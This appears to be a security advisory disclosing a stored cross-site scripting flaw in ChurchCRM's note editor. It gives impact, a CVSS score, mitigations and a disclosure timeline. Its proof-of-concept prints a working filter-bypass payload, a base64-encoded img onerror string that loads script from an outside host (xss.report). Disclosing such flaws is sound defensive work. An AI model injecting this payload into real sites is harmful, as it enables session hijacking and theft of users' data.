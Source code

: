 # ChurchCRM — Stored Cross-Site Scripting in Person Profile Notes (<= 5.18.0)

**Disclosure status:** Reported to vendor (GitHub Security Advisory GHSA-cx82-8xrh-7f5c). No vendor response after 2+ weeks. Potentially addressed in v5.19.0 without acknowledgment.

**Affected product**
- ChurchCRM — versions **<= 5.18.0**

**Summary**
A stored Cross-Site Scripting (XSS) vulnerability in ChurchCRM's Note Editor allows authenticated users to bypass input filters and inject arbitrary JavaScript code that executes in the context of other users' browsers, including administrators. Despite the presence of XSS filters, a specific payload technique successfully bypasses these protections. The malicious code persists in the database and automatically executes when any user views the affected person's profile, enabling session hijacking, privilege escalation, and unauthorized access to sensitive church data.

**Required privileges**
- Any authenticated user account with note-adding permissions

**Impact**
- Session hijacking and account takeover of viewing users
- Privilege escalation when administrators view malicious notes
- Unauthorized access to sensitive church member information
- Data exfiltration through compromised administrative sessions
- Potential for malware distribution and phishing attacks

**Technical Details**
The vulnerability exists in `NoteEditor.php` and other endpoints where XSS filters are present but can be bypassed using a specific payload technique. While ChurchCRM implements some XSS filtering mechanisms, the following payload successfully circumvents these protections:

1. **Filter Bypass**: Existing XSS filters fail to detect the specific payload construction
2. **Base64 Encoding Evasion**: JavaScript execution via `eval(atob())` bypasses string-based filters
3. **HTML Attribute Injection**: Using `onerror` event handler in `<img>` tag context
4. **Widespread Impact**: This same XSS filter bypass technique affects multiple endpoints throughout the application

**CVSS 3.1 Assessment**
- **Score**: 7.3 (High)
- **Vector**: CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:N
- **Rationale**: Network-accessible, low complexity, requires low privileges, user interaction required, high confidentiality and integrity impact

**Proof-of-Concept**

1. **Access Note Editor**: Navigate to any person's profile and access the Note Editor:
   ```
   http://[target]/NoteEditor.php?PersonID=[ID]
   ```

2. **Inject Filter-Bypassing Payload**: Enter the specific XSS payload that bypasses ChurchCRM's filters:
   ```html
   "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL1tZT1VSX1dFQkhPT0tdIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw== onerror=eval(atob(this.id))>
   ```

3. **Payload Analysis**: This specific construction bypasses XSS filters through:
   - **HTML context breaking**: `">` closes any existing attribute context
   - **Base64 encoding**: Obfuscates JavaScript from string-based filters  
   - **Event handler execution**: `onerror` triggers automatically on image load failure
   - **Dynamic evaluation**: `eval(atob())` executes decoded JavaScript

4. **Trigger Execution**: When any user views the person's profile, the JavaScript executes automatically

5. **Verification**: Check XSS.report dashboard or configured webhook for execution confirmations

**Confirmed results (observed)**
- Successfully bypassed ChurchCRM's XSS filtering mechanisms
- Stored XSS payload persisted in database and rendered without encoding
- Automatic JavaScript execution when other users view the profile
- External script loading confirmed through webhook responses
- Same payload technique confirmed to work across multiple application endpoints

**Attack Scenarios**
1. **Session Hijacking**: Steal session cookies to impersonate administrators and other users
2. **Administrative Actions**: Perform actions as the compromised user, including modifying member data, financial records, or user permissions  
3. **Data Access**: Access sensitive information visible to the compromised user's session
4. **Phishing**: Redirect users to malicious login pages to harvest credentials
5. **Keylogging**: Capture keystrokes to steal passwords and sensitive input

**Mitigation / Workarounds**
- **Immediate**: Restrict note editing to trusted administrators only
- **Recommended vendor fixes**:
  - Implement comprehensive input sanitization for all note content
  - Use proper HTML output encoding when displaying stored content
  - Implement Content Security Policy (CSP) headers
  - Add HTML purification libraries (e.g., DOMPurify) for rich text content
  - Validate and sanitize all user input server-side

**Disclosure timeline**
- 2025-09-25 — Reported via GitHub Security Advisory GHSA-cx82-8xrh-7f5c
- 2025-10-05 — ChurchCRM v5.19.0 released with unspecified security improvements
- 2025-10-08 — No vendor response received; publishing advisory for CVE coordination

**References**
- GitHub Security Advisory: GHSA-cx82-8xrh-7f5c
- ChurchCRM Note Editor: `NoteEditor.php`
- XSS Testing Platform: https://xss.report

**Contact**
- Reporter: uartu0@gmail.com

---

This advisory documents a stored XSS vulnerability that allows any authenticated user to compromise other users' sessions, particularly administrators. The persistent nature of the vulnerability means malicious code continues to execute until the affected note is removed, creating ongoing security risks for all users accessing the compromised profiles.